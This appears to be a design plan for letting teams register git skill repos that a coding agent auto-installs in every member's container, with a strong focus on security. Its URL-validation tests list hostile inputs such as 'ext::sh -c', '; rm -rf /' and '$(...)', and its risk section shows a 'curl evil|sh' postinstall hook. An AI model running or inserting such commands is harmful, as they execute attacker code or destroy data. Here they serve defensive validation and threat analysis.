

# feat: Team-global skill repos for the Pi agent

## Summary

Let team members register **git skill-repo URLs** through the Deuce app. Deuce stores them per team and, when provisioning each session's DevPod container, writes them into the container's Pi settings (`~/.pi/agent/settings.json` `packages` array) so Pi auto-installs the skills on launch. This gives the single Pi agent ("Deuce") a team-curated, version-controlled skill library without baking skills into the Deuce release or copying skill files around.

Pi implements the [Agent Skills standard](https://agentskills.io/specification) and loads skills in `--mode rpc` — **verified** against `pi` 0.74.2 (see origin solution doc). Pi's vendored docs (`packages.md`) further state it **auto-installs *missing* git/npm packages listed in `settings.json` on startup**; Deuce leans on that to manage a *list of URLs*, not skill file contents. **Not yet verified** (and load-bearing for R5): that *removing* a URL from the array stops the skill loading on next launch, rather than requiring an explicit `pi remove`. A blocking pre-implementation spike (below) settles this before U3/U4 are built; the design carries an imperative-`pi install`/`pi remove` fallback if the declarative-removal assumption fails.

This plan does **not** collapse the five agent roles into one Deuce agent (tracked separately — `docs/plans/2026-06-09-001-refactor-single-deuce-agent-plan.md`), and does not build the `@mention`→skill invocation UX. Project-level skills (a repo's own `.pi/skills/`) need no work — Pi auto-discovers them.

---

## Problem Frame

The single Pi agent runs as a generic coding agent in each session's DevPod container. There is no way for a team to give it a curated, evolving set of capabilities. Skills are the Agent-Skills-standard unit Pi already understands, and Pi can install them from git repos declared in its settings — but nothing in Deuce manages that list or gets it into the container. We need a team-owned registry plus a provisioning hook.

**Security reality that frames the whole design:** a registered repo runs **arbitrary code inside every team member's container, automatically, on session start** — without the member invoking it. This is a lateral, persistent code-exec capability beyond "I can run code in my own session." Per explicit decision, v1 uses **flat-trust team-membership** for who can register (consistent with Deuce's uniform flat-trust model), with auditing (`added_by`), strict URL validation, an env allowlist for git, and an operator kill-switch as the mitigations. A stricter admin gate is deferred (no role model exists today).

---

## Pre-Implementation Spike (blocking — gates U3/U4)

The declarative-`settings.json` design (KTD2) rests on a Pi behavior that the origin solution doc did **not** test: that the `packages` array is the authoritative load list, so dropping an entry stops that skill loading. `packages.md` documents auto-install of *missing* packages and a separate explicit `pi remove` — it does not promise removal-by-omission. Before building U3/U4, run a ~10-minute spike against the **pinned** Pi version:

1. Write `~/.pi/agent/settings.json` with `{"packages":["git:<a public skill repo>"]}`, launch `pi --mode rpc`, confirm via `get_commands` the skill auto-installs and loads (no explicit `pi install`).
2. Rewrite `settings.json` *without* that entry, relaunch, and check `get_commands`: is the skill gone?

**Outcome routing:**
- If removal-by-omission works → proceed with KTD2 as written.
- If Pi still loads already-cloned packages (or requires `pi remove`) → U4 must add an explicit reconciliation step: diff prior vs current array and run `pi remove`/clear `~/.pi/agent/git/...` for dropped entries. KTD2's "declarative ownership expresses removal" rationale is replaced by explicit reconciliation.

Capture the result as a `/ce-compound` solution doc and have the plan cite *that*, not the skills-discovery doc.

---

## Requirements

- **R1.** A team has a set of registered skill repos; any team member can list, add, and remove them (flat-trust, team-membership gated). No enable/disable in v1 — remove and re-add instead (deferred; see Scope Boundaries).
- **R2.** Each repo is a git URL (`https://`, `git:`, or `ssh://` form Pi accepts) with an `added_by` attribution. No ref/pinning in v1 (deferred).
- **R3.** When a session's container is provisioned (create / start / rebuild), Deuce writes the team's registered repos into the container's Pi `settings.json` `packages` array, alongside the existing `npm:pi-subagents` package, as the single declarative source of truth.
- **R4.** Pi installs and loads exactly the listed packages on launch; git clones run non-interactively (no credential prompt hang).
- **R5.** Removing a repo stops it loading on the next session start/rebuild — mechanism contingent on the spike above. **No live revocation in v1:** a repo deleted after it's running keeps executing in active sessions until each is restarted (see Risks).
- **R6.** An operator kill-switch (`DEUCE_SKILL_REPOS_ENABLED`, default off) gates both the API and provisioning so the capability is opt-in per deployment. When off, provisioning writes the **baseline** package set (no skill repos) rather than skipping, so a freshly provisioned container can't inherit stale repos.
- **R7.** Every new resource-scoped route is explicitly auth-gated before any existence lookup (no 404 enumeration oracle), with positive + negative authz tests — including a cross-team test (a `repoID` from team B reached via team A's path must not be read or mutated).
- **R8.** The management UI surfaces an explicit code-execution warning before a member can add a repo (it is the only per-user guardrail under flat-trust) — asserted by a test, not left as soft prose.

---

## Key Technical Decisions

- **KTD1 — Manage a list of URLs, not skill files.** Deuce never copies skill content. It writes repo URLs into Pi's `settings.json` `packages`; Pi clones + installs. Source of truth = the git repos. (origin solution doc.)
- **KTD2 — Declarative `settings.json` write, not per-repo `pi install`.** Deuce owns the full `packages` array (`npm:pi-subagents` + all registered skill-repo URLs) and writes it whole. Rationale: a CRUD-managed list must propagate *removals*. **Contingent on the spike:** this assumes Pi treats the array as the authoritative load list (dropping an entry stops it loading). If the spike shows Pi only adds missing packages, U4 adds explicit `pi remove`/clone-dir reconciliation (see spike outcome routing) — the declarative *write* stays, but removal becomes explicit. Per-repo `pi install` alone only *adds* and can't express removal, and a hand-write of only skill URLs would clobber the `pi-subagents` entry. The existing standalone `InstallPiPackage(PiSubagentsPackage)` call is folded into this declarative write. (Alternative considered below.)
- **KTD3 — Transport reuses the proven base64-over-`devpod ssh` channel.** New `WritePiSettings` manager method mirrors `InstallPiExtension` (`mkdir -p "$HOME/.pi/agent" && printf %s '<base64>' | base64 -d > "$HOME/.pi/agent/settings.json"`). JSON built in Go. Do **not** use the host bind-mount FS shortcut — `~/.pi/...` is outside the `/workspaces/<id>` mount (devpod-docker-workspace-bind-mount learning).
- **KTD4 — Flat-trust team-membership gate (accepted *despite* escalation, not because it's equivalent).** Registration gates on `IsTeamMember` (the only team-scoped primitive; no role model exists). Be honest about what this grants: unlike "a member can run code in their own session" (self-targeted, explicit, ephemeral), registering a repo is **lateral, automatic, silent, and persistent** — it runs in every *other* member's container on their next session start without their consent. Flat-trust is accepted for v1 because (a) no role primitive exists, (b) the kill-switch is default-off, and (c) `added_by` gives an audit trail — *not* because it equals self-session code-exec. If a lighter gate is wanted without a role model, the team-creator is identifiable today. `added_by` recorded for audit. Stricter gating deferred. (broadening-resource-visibility learning: gate every route, before existence lookup.)
- **KTD5 — Git env is an allowlist, injected at launch.** `piLaunchSpec` adds a known, named set (`GIT_TERMINAL_PROMPT=0`, `GIT_SSH_COMMAND='ssh -o BatchMode=yes -o ConnectTimeout=5'`) so Pi's startup auto-install clones non-interactively. Allowlist, not passthrough — git command-exec vars are injection vectors (embedded-ssh-proxy learning).
- **KTD6 — Hard delete, team-scoped table.** Mirror `user_ssh_keys` (no soft-delete exists in this codebase). `team_skill_repos(team_id FK CASCADE, url, added_by bare-UUID, created_at)`, unique on `(team_id, url)`.
- **KTD7 — Strict URL validation at the boundary.** The URL reaches a `git clone` (and `npm install`) inside the container; validate at registration with an **exact-scheme allowlist via `url.Parse`** (not `strings.HasPrefix`): permit only `https`/`http`/`ssh`/`git` (and `git:`-prefixed shorthand). **Explicitly reject `ext::`, `file://`, `--upload-pack`/option-looking inputs, userinfo `@`-host redirects, whitespace, and control/shell metacharacters.** base64 transport protects the *settings-file write*, not the downstream clone — that's why boundary validation is the real defense.

---

## High-Level Technical Design

Register-and-propagate flow (browser → API → DB → provisioning → container → Pi):

---

## Implementation Units

### U1. Data layer: `team_skill_repos` table + sqlc queries

**Goal:** Persist team-scoped skill repos.
**Requirements:** R1, R2, R6 (enabled flag).
**Dependencies:** none.
**Files:**
- `server/internal/db/migrations/014_team_skill_repos.sql` (create)
- `server/internal/db/queries/skill_repos.sql` (create)
- `server/internal/db/*.go` (regenerated by `make generate` — do not hand-edit)
**Approach:** Mirror `008_user_ssh_keys.sql` / `queries/user_ssh_keys.sql`. Columns: `id UUID PK DEFAULT gen_random_uuid()`, `team_id UUID NOT NULL REFERENCES teams(id) ON DELETE CASCADE`, `url TEXT NOT NULL CHECK (length(url) <= 2048)`, `added_by UUID` (bare nullable, mirroring `tasks.requested_by` — no FK so a user delete doesn't block the row), `created_at TIMESTAMPTZ NOT NULL DEFAULT now()`. `CREATE UNIQUE INDEX idx_team_skill_repos_team_url ON team_skill_repos(team_id, url)`. Queries: `ListSkillReposByTeam :many`, `GetSkillRepo :one` (by id AND team_id), `CreateSkillRepo :one` (`INSERT ... RETURNING *`), `DeleteSkillRepo :exec` (by id AND team_id). Also add `GetSessionTeamID :one` (`SELECT p.team_id FROM sessions s JOIN projects p ON p.id = s.project_id WHERE s.id = $1`) — U4 needs it to resolve a session's team; `team_id` is **not** on `sessions`, only reachable via `projects.team_id`. Run `make generate` then `make migrate`.
**Patterns to follow:** `server/internal/db/migrations/008_user_ssh_keys.sql`, `server/internal/db/queries/user_ssh_keys.sql`, goose `-- +goose Up/Down` directives.
**Test scenarios:** `Test expectation: none -- schema + generated queries; behavior is exercised through U2/U4 handler and provisioning tests. Verify migrate up/down runs cleanly and `make generate` produces compiling code.`
**Verification:** `make migrate` then `make migrate-down` succeed; generated `db` package compiles; unique constraint rejects duplicate `(team_id, url)`.

### U2. REST CRUD handlers + routes (team-membership gated, URL-validated, kill-switch)

**Goal:** Expose list/add/toggle/delete of skill repos, safely gated.
**Requirements:** R1, R2, R6, R7.
**Dependencies:** U1.
**Files:**
- `server/internal/handler/skill_repos.go` (create)
- `server/internal/handler/skill_repos_test.go` (create)
- `server/internal/server/server.go` (modify — register routes)
- `server/internal/config/config.go` (modify — add `SkillReposEnabled bool \`env:"DEUCE_SKILL_REPOS_ENABLED" envDefault:"false"\``)
- `server/internal/handler/handler.go` (modify — `Handler` has **no** `cfg` field today; add a `skillReposEnabled bool` field and a parameter to `handler.New(...)`, mirroring how `githubToken` is threaded; update test fixtures that call `New()`)
- `src/lib/api.ts`, `src/types/index.ts` (modify — see U6; types referenced here)
**Approach:** Mirror `handler/ssh_keys.go` (list-add-delete shape) and `handler/teams.go` (team-scoped + `IsTeamMember`). Routes under `r.Route("/api", ...)`: `GET /teams/{teamID}/skill-repos`, `POST /teams/{teamID}/skill-repos`, `DELETE /teams/{teamID}/skill-repos/{repoID}` (no PATCH — add/delete only). Each handler: parse `getUserID(r)` + `teamID`; **call `IsTeamMember` and return 403 before any DB existence lookup** (R7, gate-before-lookup); on success run the query. Project `db.TeamSkillRepo` into a camelCase wire struct (`id`, `url`, `addedBy`, `createdAt`) — never return the raw row. Map pgx `23505` → 409. **URL validation (KTD7):** accept only `https://`, `http://`, `ssh://`, `git://` URLs or `git:`-prefixed shorthand; reject anything containing shell metacharacters / whitespace / control chars; cap length. When `SkillReposEnabled` is false, all routes return 404 (`writeError(404, "NOT_FOUND", ...)`) so the feature is invisible when off (R6).
**Patterns to follow:** `handler/ssh_keys.go` (`uuid.Parse(getUserID(r))`, body decode, `writeJSON(w, 201, ...)`), `handler/teams.go` (`IsTeamMember`), `writeError`/`writeJSON` in `handler/handler.go`, route nesting in `server/internal/server/server.go`.
**Test scenarios:**
- Happy: member POSTs valid `https://` repo → 201, row persisted with `added_by` = caller; GET lists it; DELETE removes it (200/204).
- Edge: duplicate `(team_id, url)` → 409. Empty/over-length URL → 400.
- Error/authz (R7): non-member POST/GET/DELETE → **403 before existence check** (use a real repo ID belonging to another team and assert 403, not 404). Malformed `teamID`/`repoID` → 400.
- URL validation: `git:github.com/o/r` and `https://h/r` accepted; `ext::sh -c ...`, `file:///etc`, `https://legit@evil/r`, `--upload-pack=x`, `; rm -rf /`, backticks, `$(...)`, spaces → 400.
- Cross-team (R7): member of team A sends DELETE with a `repoID` that exists in team B → 404, and a follow-up GET via team B confirms the row is **unchanged**.
- Kill-switch: with `DEUCE_SKILL_REPOS_ENABLED=false`, every route → 404.
**Verification:** `go test ./internal/handler/ -run SkillRepo` passes; non-member and cross-team requests are rejected before any row is revealed.

### U3. `WritePiSettings` provisioning transport

**Goal:** Write a declarative `~/.pi/agent/settings.json` into a container.
**Requirements:** R3.
**Dependencies:** none (pure transport; consumed by U4).
**Files:**
- `server/internal/workspace/manager.go` (modify — add `WritePiSettings`)
- `server/internal/workspace/manager_test.go` (modify/create — JSON-shape + command-construction test)
**Approach:** Add `func (m *Manager) WritePiSettings(ctx, workspaceID string, packages []string, logFn LogFunc) error`. Build the JSON in Go from a struct `{ "packages": [...] }` (use `json.Marshal`; only emit keys Deuce owns so it merges cleanly conceptually but is written whole). Base64-encode and write via `ExecInWorkspace` exactly like `InstallPiExtension`: `mkdir -p "$HOME/.pi/agent" && printf %s '<b64>' | base64 -d > "$HOME/.pi/agent/settings.json"`. Non-fatal at call site (log + slog + return err). Idempotent (safe on every create/start).
**Patterns to follow:** `InstallPiExtension` in `server/internal/workspace/manager.go` (base64-over-`devpod ssh`, `CombinedOutput`, `logFn` one-shot success/failure line).
**Test scenarios:**
- Happy: given `["npm:pi-subagents", "git:github.com/o/r"]`, the marshaled JSON has a `packages` array in that order; the constructed command base64-decodes back to that JSON and targets `~/.pi/agent/settings.json`.
- Edge: empty `packages` → writes `{"packages":[]}` (valid, loads nothing extra). Nil slice → same (use `emit_empty_slices`-style guard so it's `[]` not `null`).
- Error: `ExecInWorkspace` failure → returns error, logs a warning, does not panic.
**Verification:** Unit test asserts JSON shape and decoded command string without needing a live container (mirror how manager tests fake the runner).

### U4. Wire skill-repo packages into `provisionAgentTools`

**Goal:** On provisioning, assemble and write the team's enabled packages.
**Requirements:** R3, R5, R6.
**Dependencies:** U1, U3.
**Files:**
- `server/internal/handler/workspace.go` (modify — `provisionAgentTools` signature + body)
- `server/internal/handler/sessions.go` (modify — `startWorkspace` call site, the second caller of `provisionAgentTools`)
- `server/internal/handler/workspace_test.go` (modify/create)
**Approach:** **Thread `sessionID uuid.UUID` into `provisionAgentTools`** — do *not* resolve team from `workspaceID`, which is the non-unique session *name*, not a UUID. Both callers already have `sessionID` in scope: `sessions.go startWorkspace` (session create) and `workspace.go runWorkspaceAction` (start/rebuild). Inside, resolve the team via `GetSessionTeamID(sessionID)` (U1). When `SkillReposEnabled`: call `ListSkillReposByTeam(teamID)`, build `packages := ["npm:pi-subagents", <git:url per repo>]`, call `h.workspaces.WritePiSettings(ctx, workspaceID, packages, logFn)`. **Retire the standalone `InstallPiPackage(PiSubagentsPackage)` call** — pi-subagents now lives in the declarative array (KTD2); keep `InstallPiExtension(ask-user)` as-is (extension file, different path — no clobber). **When disabled, still write the baseline `["npm:pi-subagents"]`** (not skip) so a container can't inherit stale skill repos from a settings file written while the feature was on (R6). All calls stay idempotent + non-fatal.
**Approach note (removal semantics, R5 — contingent on spike):** if the spike confirms load-by-list, writing the array whole each provision means a removed/disabled repo simply isn't written and isn't loaded next start. If not, add the `pi remove`/clone-dir reconciliation here. Either way, changes apply on next session start, **not** to live Pi processes (no live revocation — see Risks).
**Patterns to follow:** existing `provisionAgentTools` body in `server/internal/handler/workspace.go`; `h.queries` usage in sibling handlers.
**Test scenarios:**
- Happy: team with two repos → `WritePiSettings` receives `["npm:pi-subagents", url1, url2]`.
- Edge: team with zero repos → `["npm:pi-subagents"]` only.
- Removal (R5): a deleted repo is absent from the next assembled package list.
- Kill-switch (R6): `SkillReposEnabled=false` → `WritePiSettings` receives the baseline `["npm:pi-subagents"]` (no stale skill repos), never the team's repos.
- Integration: provisioning a freshly-created workspace results in a `WritePiSettings` invocation with the resolved team's packages (fake workspace manager records the call).
**Verification:** `go test ./internal/handler/ -run Provision` passes; pi-subagents always present; disabled/removed repos never appear.

### U5. Inject non-interactive git env into the Pi launch command

**Goal:** Pi's startup auto-install clones git repos without hanging on credentials.
**Requirements:** R4.
**Dependencies:** none (independent of U1–U4; required for R4 end-to-end).
**Files:**
- `server/internal/agent/pirun/devpod_launcher.go` (modify — `piLaunchSpec`)
- `server/internal/agent/pirun/devpod_launcher_test.go` (modify/create)
**Approach:** In `piLaunchSpec`, append to `extraEnv` a fixed allowlist: `GIT_TERMINAL_PROMPT=0` and `GIT_SSH_COMMAND=ssh -o BatchMode=yes -o ConnectTimeout=5`. These flow into the container as `devpod ssh --set-env KEY=VALUE` alongside the existing `DEUCE_SYSTEM_PROMPT`. Allowlist only — do not forward arbitrary env (embedded-ssh-proxy learning). Private-repo credentials are **deferred** (v1 = public repos; see Scope Boundaries).
**Patterns to follow:** existing `extraEnv`/`--append-system-prompt` handling in `piLaunchSpec` (`server/internal/agent/pirun/devpod_launcher.go`); `ExecInWorkspace` `--set-env` in `manager.go`.
**Test scenarios:**
- Happy: `piLaunchSpec` output `extraEnv` contains `GIT_TERMINAL_PROMPT=0` and the `GIT_SSH_COMMAND` entry, regardless of whether a system prompt is set.
- Edge: with and without `systemPrompt`, the git env entries are always present and the `--append-system-prompt` arg is unaffected.
**Verification:** `go test ./internal/agent/pirun/ -run LaunchSpec` passes; git env present in every launch.

### U6. Frontend: API client, types, and a skill-repos management dialog

**Goal:** Let a team member manage repos from the UI.
**Requirements:** R1, R2, R8.
**Dependencies:** U2.
**Files:**
- `src/types/index.ts` (modify — `SkillRepo` type)
- `src/lib/api.ts` (modify — `listSkillRepos`/`createSkillRepo`/`deleteSkillRepo`)
- `src/components/settings/SkillReposDialog.tsx` (create)
- wherever settings dialogs are launched (modify — add entry point next to SSH keys / agent settings)
**Approach:** Mirror `src/components/settings/SSHKeysDialog.tsx` (full list-add-delete CRUD) for layout and the `api.ts` request pattern. Add a URL input with the same scheme validation hint as the server (client-side convenience only; server validation is authoritative) and a delete control per row (no enable/disable in v1 — mirrors `user_ssh_keys` exactly). Surface a short security note in the dialog ("Skills run with full access inside every session's container — only add repos you trust"). Hide the entry point when the feature is disabled (the API returns 404 → treat as unavailable).
**Patterns to follow:** `src/components/settings/SSHKeysDialog.tsx`, the ssh-keys block in `src/lib/api.ts`, `ApiError` handling.
**Test scenarios:** One required (R8): assert the code-execution warning text renders in the add flow (so the only per-user guardrail can't silently regress). Otherwise UI CRUD over typed API wrappers needs no unit test; if a URL/ref-format helper is extracted, unit-test it (valid git forms accept; `ext::`/`file://`/shell-metachar/empty reject) alongside the existing pure-logic Vitest suites.
**Verification:** Dialog lists, adds (with client validation), toggles, and deletes repos against a running backend; rejects obviously malformed URLs before submit; reflects 409 on duplicate.

---

## Scope Boundaries

### In scope
- Team-global git skill-repo registry (list / add / delete), team-membership gated, operator kill-switch.
- Declarative `settings.json` provisioning into each container; non-interactive git env at launch.
- Management UI mirroring the SSH-keys dialog.

### Deferred to Follow-Up Work
- **Enable/disable toggle + `ref` pinning.** Dropped from v1 (add/delete only, mirroring `user_ssh_keys`). Enable/disable is low-value until live propagation exists; `ref` pinning adds injection-validation surface. Return together once live propagation lands.
- **Private-repo credentials** (deploy key / token via `GIT_SSH_COMMAND` or a `DEUCE_SKILL_REPO_GIT_TOKEN` env threaded to the launcher). v1 is public repos.
- **Live propagation** to running Pi processes (v1 applies on next session start/rebuild).
- **Stricter authz** (team-admin role or a per-repo review/approval step) — needs a role model that does not exist yet.
- **Repo health/visibility** (surfacing clone/install failures from the container back into the UI; today they're non-fatal log lines).
- **`/ce-compound` capture** of the "team-registered code runs in every container" security pattern after this lands.

### Outside this plan
- Collapsing the five agent roles into one Deuce agent (`docs/plans/2026-06-09-001-refactor-single-deuce-agent-plan.md`).
- `@mention`→`/skill:name` invocation UX, provenance badges, skill enumeration via `get_commands`.
- Project-level skills (Pi auto-discovers a repo's `.pi/skills/` — no work needed).

---

## Risks & Mitigations

- **Arbitrary code execution in every member's container (accepted under flat-trust).** A malicious or compromised repo = code-exec as the container user, on every teammate's session start. Mitigations: strict URL validation (KTD7), git env allowlist not passthrough (KTD5), `added_by` audit trail, operator kill-switch default-off (R6), and a clear UI warning. Residual risk is explicitly accepted for v1 per the trust-model decision; revisit with an admin gate (deferred). (broadening-resource-visibility + embedded-ssh-proxy learnings.)
- **URL → shell injection** via the `pi install`/settings path. Mitigation: validate scheme/format and reject shell-unsafe characters at registration; base64 transport avoids quoting hazards for the settings write.
- **No live revocation (R5).** Deleting a detected-malicious repo does **not** stop it in already-running sessions — it keeps executing until each container restarts. The kill-switch is operator/deploy-level and also doesn't touch live processes, so v1 has no fast revocation primitive. Mitigation: documented "restart affected team sessions" runbook; live propagation deferred. Decide explicitly whether shipping code-exec with no live revocation is acceptable for v1.
- **`npm install` postinstall scripts are a code-exec vector independent of skill content.** A registered repo with no dangerous skill files can still carry `"postinstall": "curl evil|sh"` in `package.json`, which runs at clone/install inside every member's container. Same flat-trust acceptance as the skill code itself; the git env allowlist (KTD5) does **not** mitigate it. Investigate a `--ignore-scripts` equivalent before v1; document if unavailable.
- **Settings clobbering.** Deuce owns the whole `packages` array and always includes `npm:pi-subagents`; folding the standalone install in removes the second writer (KTD2). Caveat: a user repo shipping its own `.pi/settings.json` with `packages` may override at project scope — document it.
- **Latency on first launch after each container create/rebuild** from clone + `npm install` (runs at Pi launch, not provision; cached in `~/.pi/agent/git` between launches within a living container). Accepted for v1; eager pre-warm at provision is a possible later optimization. (`node`/`npm` already ensured by `InstallPi`.)
- **Pre-existing gate-before-lookup in `runWorkspaceAction`.** The provisioning path U4 hooks into already calls `GetSession` before `requireSessionMember` (`workspace.go`), inverting the gate order the auth learning prescribes. Not introduced by this plan, but U4 adds skill-repo provisioning to that path — verify/fix the gate order (and add the non-member→403 test) as part of this work or file it explicitly.
- **Provisioning failures are non-fatal** — a bad repo shouldn't break the workspace; failures log and the session still runs without that skill.

---

## Alternatives Considered

- **Per-repo `pi install git:<url>` at provision (reuse `InstallPiPackage`)** instead of a declarative `settings.json` write. Simpler and pre-warms, but cannot express *removal* — a disabled/deleted repo lingers in the container's settings (pi install only adds), breaking R5. Rejected in favor of KTD2's declarative ownership. Pre-warming via eager install remains available as a later optimization layered on top.
- **Host bind-mount / shared volume** for skills. Rejected earlier in design: `devpod up` exposes no mount-injection flag, devcontainer.json is user-controlled, and docker-outside-of-docker resolves bind sources on the host (a Deuce-container dir isn't valid). The settings/URL approach sidesteps all of it. (See thread + devpod-docker-workspace-bind-mount learning.)

---

## Sources & Research

- Origin ideation: `docs/ideation/2026-06-08-single-deuce-agent-ideation.md`.
- Skill *discovery* + `--mode rpc` loading + imperative `pi install`: `docs/solutions/architecture-patterns/pi-loads-agent-skills-standard-in-rpc-mode.md` (verified `pi` 0.74.2). **This doc does *not* cover declarative `settings.json` `packages` auto-install or removal** — that comes from Pi's vendored `packages.md` (auto-install of *missing* packages) and is otherwise unverified (see the blocking spike).
- **Pi version is unpinned:** `piInstallScript` runs `curl pi.dev/install.sh | sh` (only Node is pinned), so each container gets whatever Pi ships at provision time. The `packages` contract could drift. Either pin Pi to a known-good version in `piInstallScript` and cite it, or capture `pi --version` to logs at provision so drift is observable.
- Auth pattern: `docs/solutions/architecture-patterns/broadening-resource-visibility-requires-per-route-authorization-audit.md` (gate every route, before existence lookup; positive+negative tests).
- Boundary/env posture: `docs/solutions/architecture-patterns/embedded-ssh-proxy-for-vscode-remote.md` (env allowlist, validate values crossing into the container).
- Patterns to mirror: `server/internal/db/migrations/008_user_ssh_keys.sql`, `server/internal/db/queries/user_ssh_keys.sql`, `server/internal/handler/ssh_keys.go`, `server/internal/handler/teams.go` (`IsTeamMember`), `server/internal/workspace/manager.go` (`InstallPiExtension`, `InstallPiPackage`, `ExecInWorkspace`), `server/internal/agent/pirun/devpod_launcher.go` (`piLaunchSpec`), `src/components/settings/SSHKeysDialog.tsx`.
